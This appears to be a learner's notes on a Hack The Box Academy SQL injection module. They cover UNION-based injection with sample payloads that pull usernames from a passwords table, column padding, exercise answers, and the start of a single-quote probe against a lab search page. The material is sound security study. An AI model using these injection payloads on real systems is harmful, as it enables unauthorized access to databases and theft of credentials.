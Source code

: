 ```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If we had more columns in the table of the original query, we have to add more numbers to create the remaining required columns. For example, if the original query used `SELECT` on a table with four columns, our `UNION` injection would be:
```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```
This query would return:
```
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```
As we can see, our wanted output of the '`UNION SELECT username from passwords`' query is found at the first column of the second row, while the numbers filled the remaining columns.

### Exercise

On the exercise of the Academy, we are requested to make the right `UNION` query by taking data from two different tables. We don't know the number of columns of these tables.
A good help could be the `DESCRIBE` function that returns the number and the type of columns of the specified table.

Anyway, the correct query is:
```sql
select * from employees UNION select 1,2,3,4,5,6 from departments;
```
or
```sql
select * from employees UNION select NULL,2,3,4,5,6 from departments;
```
or
```sql
select * from employees UNION select NULL,NULL,NULL,NULL,NULL,NULL from departments;
```

I can also use the `departments`table for first, like the following:
```sql
select * from departments UNION select 1,2 from employees;
```

## Union Injection

We apply the SQLi Discovery steps by injection a single quote (`'`), and we do get an error:
```
http://SERVER_IP:PORT/search.php?port_code=cn'
```
![ports_quote](https://academy.hackthebox.com/storage/modules/33/ports_quote.png)
